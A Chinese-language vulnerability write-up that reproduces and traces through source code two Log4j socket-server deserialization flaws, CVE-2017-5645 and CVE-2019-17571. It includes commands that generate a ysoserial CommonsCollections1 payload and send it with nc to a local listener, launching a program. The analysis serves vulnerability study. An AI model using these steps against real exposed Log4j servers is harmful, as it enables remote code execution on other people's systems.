






### 0x01 前言

最近不是爆出了一个log4j的反序列化吗，巧的是我正好在总结java反序列化的知识，其实一开始是没太关注这个漏洞的，毕竟，log4j只是一个组件，即使有反序列化的触发点，没有pop gadgets也不能利用，不像各大中间件的反序列化，自带的类库中有各种各样的pop链可以利用，找到触发点就可以直接打～

但是，那天在群里聊天:
a师傅：CVE-2019-17571漏洞通报链接，群里有没有人复现了这个漏洞？
b师傅：最新的？又反序列化了？
c师傅：不会放出exp的，exp应该只有实验室的人有
d师傅：有分析文章出来了，poc也就不远了～

看到大师傅们的交流，我就想试着自己分析分析，顺便挖挖log4j中有没有自带的pop gadgets可以利用，由于之前没有分析过log4j的反序列化，在查阅资料的过程中得知log4j还有一个反序列化漏洞CVE-2017-5645，这里就顺带一起分析了吧。

### 0x02 CVE-2017-5645

####　复现

复现环境：
- jdk1.7
- log4j 2.8  （下载地址：https://logging.apache.org/log4j/log4j-2.8/download.html)
- commons-collections 3.1
- jcommander-1.48.jar

复现步骤：

下载完log4j 2.8过后会有一大堆的jar文件，jcommander-1.48.jar与commons-collections.jar需要单独下载，jcommander如果没有会导致有些类找不到，把所有jar放到与log4j的jar文件同一目录下，然后在该目录下执行以下命令，开启log4j监听：

`java -cp log4j-core-2.8.jar:log4j-api-2.8.jar:jcommander-1.48.jar:commons-collections-3.1.jar org.apache.logging.log4j.core.net.server.TcpSocketServer  -p 7777`

然后利用ysoserial生成一个反序列化的payload

`java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 "wireshark" > commons1.ser`

然后直接利用nc发送payload:

`nc 127.0.0.1 7777 < commons1.ser`

成功弹出wireshark:



到头来还是利用的commons-collections的pop链利用漏洞

#### 调试分析

为了方便调试，我创建一个idea工程



将我们需要的几个jar包添加到lib中，然后创建一个类，这个类的代码如图所示很简单，就只是调用`TcpSocketServer.main()`而已，然后我们运行这个Main类，然后下断点就可以调试了，当然，我们也可以采用idea远程调试的方式。我们先来看一看TcpSocketServer的main方法

```java
public static void main(final String[] args) throws Exception {
    final CommandLineArguments cla = BasicCommandLineArguments.parseCommandLine(args, TcpSocketServer.class, new CommandLineArguments());
    if (cla.isHelp()) {
        return;
    }
    if (cla.getConfigLocation() != null) {
        ConfigurationFactory.setConfigurationFactory(new ServerConfigurationFactory(cla.getConfigLocation()));
    }
    final TcpSocketServer<ObjectInputStream> socketServer = TcpSocketServer
            .createSerializedSocketServer(cla.getPort(), cla.getBacklog(), cla.getLocalBindAddress());
    final Thread serverThread = socketServer.startNewThread();
    if (cla.isInteractive()) {
        socketServer.awaitTermination(serverThread);
    }
}
```

BasicCommandLineArguments这个类一看名字就是负责解析命令行参数的，我们不多关注了，直接看createSerializedSocketServer()方法，看起来是创建了一个网络监听，跟进去：

```java
    public static TcpSocketServer<ObjectInputStream> createSerializedSocketServer(final int port, final int backlog,
            final InetAddress localBindAddress) throws IOException {
        LOGGER.entry(port);
        final TcpSocketServer<ObjectInputStream> socketServer = new TcpSocketServer<>(port, backlog, localBindAddress,
                new ObjectInputStreamLogEventBridge());
        return LOGGER.exit(socketServer);
    }
```

这里创建了一个TcpSocketServer实例，并且用`LOGGER.exit`的方式返回，`LOGGER.exit`的功能就是对日志做些操作，然后仍然返回传进来的对象，所以这里相当于就是放回了socketServer,我们看看socketServer怎么来的，跟进TcpSocketServer的构造函数,这里调用的构造函数是这一个（TcpSocketServer类有多个重载的构造函数）：

```java
    public TcpSocketServer(final int port, final LogEventBridge<T> logEventInput) throws IOException {
        this(port, logEventInput, extracted(port));
    }
```

这个构造函数又调用了另外一个构造函数：

```java
    public TcpSocketServer(final int port, final LogEventBridge<T> logEventInput, final ServerSocket serverSocket)
            throws IOException {
        super(port, logEventInput);
        this.serverSocket = serverSocket;
    }
```

这里需要注意这几个参数的值，`serverSocket= extracted(port), logEventInput=(new ObjectInputStreamLogEventBridge())`

先看extracted方法：
```java
    private static ServerSocket extracted(final int port) throws IOException {
        return new ServerSocket(port);
    }
```
看到上面的代码，大家应该也都猜到了，就是根据端口创建了一个socket，就不细看代码了。然后来看一下ObjectInputStreamLogEventBridge类，这个类代码不多，我就全部贴出来了：

```java
public class ObjectInputStreamLogEventBridge extends AbstractLogEventBridge<ObjectInputStream> {
    public ObjectInputStreamLogEventBridge() {
    }

    public void logEvents(ObjectInputStream inputStream, LogEventListener logEventListener) throws IOException {
        try {
            logEventListener.log((LogEvent)inputStream.readObject());
        } catch (ClassNotFoundException var4) {
            throw new IOException(var4);
        }
    }

    public ObjectInputStream wrapStream(InputStream inputStream) throws IOException {
        return new ObjectInputStream(inputStream);
    }
}
```
构造函数啥都没有，但是logEvents方法中有我们感兴趣的readObject方法，如果inputStream可控，那么这里就是反序列化的触发点了，这里不多说，先按照我们前面的思路跟代码，一会儿我们就会邂逅它的，现在回到TcpSocketServer的构造函数，里面调用了`super(port, logEventInput)`，这里调用了父类的构造方法：

```java
    public AbstractSocketServer(int port, LogEventBridge<T> logEventInput) {
        this.logger = LogManager.getLogger(this.getClass().getName() + '.' + port);
        this.logEventInput = (LogEventBridge)Objects.requireNonNull(logEventInput, "LogEventInput");
    }
```

感觉没啥特别的了，就是简单的赋值。然后我们回到TcpSocketServer的main方法，继续往下走，调用了`socketServer.startNewThread()`,别说了，直接跟进去：

```java
    public Thread startNewThread() {
        Thread thread = new Log4jThread(this);
        thread.start();
        return thread;
    }
```

这个startNewThread是继承自父类AbstractSocketServer的一个方法，可以看到这里创建了一个线程，在java中使用多线程，当调用线程的start方法时就会调用对应任务的run方法（想要使用子线程运行的类都要实现一个Runnable接口，要实现run方法）

关于java多线程参考：https://www.runoob.com/java/java-multithreading.html

而这里多线程的任务程序是this,this此时是指向的TcpSocketServer对象，所以就会调用TcpSocketServer的run方法，我们看下run方法的实现：

```java
    public void run() {
        final EntryMessage entry = logger.traceEntry();
        while (isActive()) {
            if (serverSocket.isClosed()) {
                return;
            }
            try {
               
                final Socket clientSocket = serverSocket.accept();
                clientSocket.setSoLinger(true, 0)
                final SocketHandler handler = new SocketHandler(clientSocket);
                handlers.put(Long.valueOf(handler.getId()), handler);
                handler.start();
            } catch (final IOException e) {
                xxxx
            }
        }
        xxxxxx
    }
```
代码经过精简，保留了重要部分，可见显示调用了serverSocket的accept方法，这个方法没啥影响，最后返回的还是一个socket，我们也就不深入探索了，接着用clientSocket实例化了SocketHandler类，我们看一下这个类的构造函数：

```java
    public SocketHandler(final Socket socket) throws IOException {
        this.inputStream = logEventInput.wrapStream(socket.getInputStream());
    }
```

值得一提的是SocketHandler类是TcpSocketServer类的内部类，所以这里的logEventIuput的值就是（new ObjectInputStreamLogEventBridge()）,这里调用了它的warpStream方法：

```java
    public ObjectInputStream wrapStream(InputStream inputStream) throws IOException {
        return new ObjectInputStream(inputStream);
    }
```

就是把socket连接传过来的数据流作为包装成ObjectInputStream，现在`this.inputStream`就是一个来自用户输入的ObjectInputStream流了。回到TcpSocketServer的run方法，继续往下，执行了`handler.start()`而handler是SocketHandler类的实例，这个类继承自Log4jThread，Log4jThread又继承自Thread类，所以他是一个自定义的线程类，自定义的线程类有个特点，那就是必须重写run方法，而且当调用自定义线程类的start()方法时，会自动调用它的run()方法，而SocketHandler的run方法如下：

```java
public void run() {
    final EntryMessage entry = logger.traceEntry();
    boolean closed = false;
    try {
        try {
            while (!shutdown) {
                logEventInput.logEvents(inputStream, TcpSocketServer.this);
            }
        } catch (final EOFException e) {
            closed = true;
        } catch (final OptionalDataException e) {
            logger.error("OptionalDataException eof=" + e.eof + " length=" + e.length, e);
        } catch (final IOException e) {
            logger.error("IOException encountered while reading from socket", e);
        }
        if (!closed) {
            Closer.closeSilently(inputStream);
        }
    } finally {
        handlers.remove(Long.valueOf(getId()));
    }
    logger.traceExit(entry);
}
```

变量shutdown的值默认为false,所以进入while循环，这里执行了`logEventInput.logEvents(inputStream, TcpSocketServer.this)`，而logEvents方法就是我们之前提到的调用了readObject方法的那个，如下：

```java
    public void logEvents(ObjectInputStream inputStream, LogEventListener logEventListener) throws IOException {
        try {
            logEventListener.log((LogEvent)inputStream.readObject());
        } catch (ClassNotFoundException var4) {
            throw new IOException(var4);
        }
    }
```

inputStream就是被封装成ObjectInputStream流的、我们通过tcp发送的数据。所以只要log4j的tcpsocketserver端口对外开放，且目标存在可利用的pop链，我们就可以通过tcp直接发送恶意的序列化payload实现RCE。

### 0x03 CVE-2019-17571

如果你理解了上面的原理，那么理解这次的漏洞就很简单了，感觉就像是为了凑kpi而挖的洞...

这次的触发点readObject方法在SocketNode的run方法中被调用：



那么这次的run方法又会在哪里被调用呢?在SocketServer的main方法里....



这里依然通过调用线程类的start方法调用目标的run方法....是不是感觉和之前的漏洞如出一辙？最后还是用commons-collections 3.1攻击链弹个wireshark:

- 在idea中添加对应的类包：log4j-1.2.5.jar \   commons-collections.jar
- 创建一个log4j配置文件
- 创建一个类，这个类调用SocketServer的main方法，这次的main的参数与上一个漏洞有点不一样：



三个参数分别为：监听的端口，配置文件，一个目录（我也没管这个目录是干啥的，随便提供了一个目录）

配置文件随便在网上找一个都行，符合log4j配置文件格式就行。

- 运行这个类，就会监听对应端口
- 然后还是用nc发送我们的payload,弹出wireshark




### 其他

在分析这个漏洞之前，我就在想什么情况下可以利用这个漏洞呢?log4j不是一个日志组件吗？啥时候会用来监听端口?原来是在用log4j搭建日志服务器集中管理日志的时候会用到socketserver这种机制，一篇参考：https://blog.csdn.net/zhangchaoyi1a2b/article/details/77510138

另一篇其他的参考：https://blog.csdn.net/hongweigg/article/details/53464639

我试着挖过log4j自带的类中的pop链，但是没有找到可利用的，所以这个漏洞需要配和着其他存在pop gadgets的类库才能实施攻击,感觉就差点意思~

